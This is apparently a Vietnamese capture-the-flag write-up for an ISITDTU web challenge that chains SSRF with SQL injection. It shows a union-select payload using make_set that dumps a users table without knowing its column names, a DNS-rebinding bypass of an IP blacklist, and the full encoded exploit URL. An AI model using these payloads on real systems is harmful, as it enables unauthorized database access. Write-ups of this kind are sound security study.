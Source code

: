# Ez SQL

Bài này là một chall sử dụng SSRF và SQLi khá hay nên mình note lại để học tập :Đ

## SQLi

SQLi nằm ở `home.php`, và ở đây có 1 đoạn check ip:

```php
if ($_SERVER['REMOTE_ADDR'] !== "127.0.0.1") {
  die("<center>This is not a private ip</center>");
}
```

Mình tải source về build lại, xoá đoạn check phía trên đi và thực hiện SQLi trước. Đây là payload:

```sql
1 union select 1,make_set(1|4,`2`,`3`,`4`)from(select 1,2,3,4 union select * from users)a
```

Do không tìm được tên cột nên mình sử dụng `select 1,2,3,4 union select * from users` để tạo table mới từ table `users` với các cột có tên là `1`, `2`, `3` và `4` sau đó dùng `make_set` để ghép cột 1 và cột 3 lại với nhau thành một cột duy nhất.

Phần SQLi đã xong, việc còn lại cần làm là bypass SSRF.

![200](images/200.jpg)

## SSFR

SSRF nằm ở `index.php` và ở đây cũng có 1 đoạn check ip:

```php
function filter($url) {
	$black_lists = ['127.0.0.1', '0.0.0.0'];
	$url_parse = parse_url($url);
	$ip = gethostbyname($url_parse['host']);
    if (in_array($ip,$black_lists)) {
        return false;
    }
	return true;
}
```

Nếu hostname mình nhập vào có ip mà khác `127.0.0.1` và `0.0.0.0` thì `curl` sẽ được thực hiện. Lúc này mình cần 1 url có ip khác `127.0.0.1` để `curl` được thực hiện và có `REMOTE_ADDR` = `127.0.0.1` để SQLi được.

Ý tưởng của mình là sử dụng DNS Rebinding, tạo 1 url mà khi query đến nó sẽ ngẫu nhiên trỏ đến `127.0.0.1` hoặc một ip nào đó. Ở đây mình dùng [requestrepo.com](https://requestrepo.com) và config như sau:

![requestrepo_config](images/requestrepo_config.png)

Do nó sẽ trỏ ngẫu nhiên mà mình cần lần đầu tiên khi check `index.php` ip là `1.2.3.4` và lần sau tại `home.php` là `127.0.0.1`. Do đó cần request nhiều lần để thấy được flag.

Payload:

```url
http://meo.tg3xz1mm.requestrepo.com/home.php?id=1%20union%20select%201,make_set(1%7C4,%602%60,%603%60,%604%60)from(select%201,2,3,4%20union%20select%20*%20from%20users)a
```

Flag: `ISITDTU{w0w_SSRF_ch4in_SQLI_3Zzzz_h3he_!!!!}`

#

Đoạn payload `union select xxx` tuyệt vời trên mình có tham khảo của anh `taidh` <3
